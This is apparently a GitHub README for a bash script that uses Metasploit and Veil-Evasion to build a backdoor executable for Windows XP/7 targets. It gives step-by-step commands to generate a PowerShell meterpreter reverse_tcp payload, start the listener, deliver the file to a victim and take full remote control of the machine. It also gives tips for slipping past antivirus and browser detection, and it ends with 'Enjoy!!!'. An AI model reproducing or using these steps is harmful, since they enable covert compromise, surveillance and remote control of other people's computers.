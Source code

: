 # cybersecurity 

This bashscript runs metasploit framework's msfconsole and opens backdoor in windows machine.

### Installation
- Download the script in the repository and move to a directory 
  OR
  ```sh
  git clone https://github.com/meanishn/cybersec.git
  ```
- change to the directory with script file
- Run
  ```sh
    ./hack.sh
  ```
- After a while you should be able to see meterpreter console
  ```sh
    meterpreter>
  ```
- In the current directory you should be able to see the executable named ``` play.exe ```

The executable file play.exe should be sent to the target machine (windows xp/7). 
When this executable is opened in target machine(windows) then in your host machine(kali) you have a meterpreter console running
with full access to the windows machine.

NOTE: If you are downloading, use internet Explorer to download this exe file. Other browsers will detect this as virus and wont allow you to download.

To test the attack, type ``` screenshot ``` in the meterpreter console. You should get the screenshot image from your target machine.

//TODO
Make this play.exe undetectable by antivirus and browser

### Details
Requirements: msfconsole (pre-installed with kali), veil-evasion
- Install git
  ```sh
    sudo apt-get install -y git
  ```
- Installing veil-evasion

  veil evasion is used so just to make sure that the payload that is created is not detected as virus.
  ```sh
  git clone https://github.com/Veil-Framework/Veil.git
  cd Veil/
  cd setup
  sudo ./setup.sh -c
  ```
  This will install all the dependencies Python 2.7, Py2Exe, PyCrypto,

### How to make attack
  After the veil evasion is installed correctly, type ```veil-evasion``` in terminal.
  
  This should open veil-evasion console. Type ```list``` to see available payloads that can be created.
  For this project we are going to create a powershell shellcode payload. 
  
  As of version 2.28.2 of veil-evasion, we are going to use 
  ```powershell/shellcode_inject_virtual/virtual```payload whose id is 28.
 
 - Go ahead and type
  ```bash 
  use 28 
  ```
  NOTE: The id may be different depending on the version of veil evasion
  
  - In the next console screen. Type:
  ```bash
    generate
  ```
 - Now it asks for option if we want to use msfvenom shellcode. We will be using msfvenom so select 1 (default).
 - You should get the prompt asking for metasploit payload. We will be using meterpreter reverse tcp. so type and press enter
  ```bash
    windows/meterpreter/reverse_tcp
  ```
- Next, we have to provide LHOST, give your local ip: ``` 192.168.10.X```
- Next it asks for LPORT, give it any available port: 443
- Finally, it asks for name of output file. Give any name and press enter (lets say 'play')
  After following these steps, two files should have been created:
  ```bash
    Payload File: /var/lib/veil-evasion/output/source/play.bat
    Handler File: /var/lib/veil-evasion/output/handlers/play_handler.rc
  ```
  
- Exit from veil evasion ```exit```
- Lets start the msfconsole session by using the handler file generated by veil evasion
  ```bash
    msfconsole -r /var/lib/veil-evasion/output/handlers/play_handler.rc
  ```
- Now, we need to transfer the payload file (/var/lib/veil-evasion/output/source/play.bat) to our target machine.
- This file should bypass windows defender and other antivirus and browsers should let you download the file. After downloading execute this batch file.
- In our host machine (kali), we should be able to see the message
  ```bash
    Meterpreter session 1 opened (192.168.....) 
  ```
- Type ```sessions``` to see all session information and make note of id of the session.
- Type ``` sessions -i [ID] ``` to start interacting with target machine
- Finally you should be able to see ```meterpreter>``` console. To test type ```screenshot``` to take screenshot from target machine.
- Enjoy!!!
 
 
  
  
